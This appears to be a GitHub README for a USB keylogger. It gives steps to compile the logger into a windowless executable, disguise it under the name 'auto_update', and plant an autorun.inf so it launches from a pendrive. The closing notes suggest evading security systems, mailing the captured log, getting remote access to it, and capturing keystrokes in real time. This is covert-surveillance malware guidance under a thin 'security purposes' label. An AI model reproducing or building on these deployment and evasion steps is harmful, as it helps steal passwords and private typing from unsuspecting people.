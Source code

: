 
# USB Key logger

Source code for a simple key logger application that can be executed via pendrive to monitor key strokes for security purposes.
Each keystroke is encrypted and then transferred to log file. 
Log file needs to be decrypted using decoder file. 



## One way to use:

1. Clone/ Download repository.
2. Install all script dependencies.
```
python install -r requirements.txt
```
3. Convert main.py file to .exe file:
```
pip install pyinstaller
```
Open powershell window in the same repository. Type -
```
pyinstaller --onefile -w 'main.py'
```
4. Executable file will be present in build folder. Change the file name to "auto_update". Copy executable file and paste it in your external drive.
5. Open any text editor (preferably notepad). Type in - 
```
[autorun]; 
Open = auto_update.exe 
ShellExecute = auto_update.exe 
UseAutoPlay = 1
```
6. Make sure save as type is set to "All files" (without double quotes). Save the file as "autorun.inf" (without double quotes) in the same repository as executable file (auto_update.exe).






## Notes

- This will most possibly not work for latest versions of Windows and Mac.
- You will have to allow access to your external usb drive explicitly.
- Or script better to evade current security systems.
- You can change the code to mail the log file. (But this activity will be logged into the device firewall)
- Or create a more complex code to remotely access the log file.
- Also you can create a system to access keystrokes in realtime.
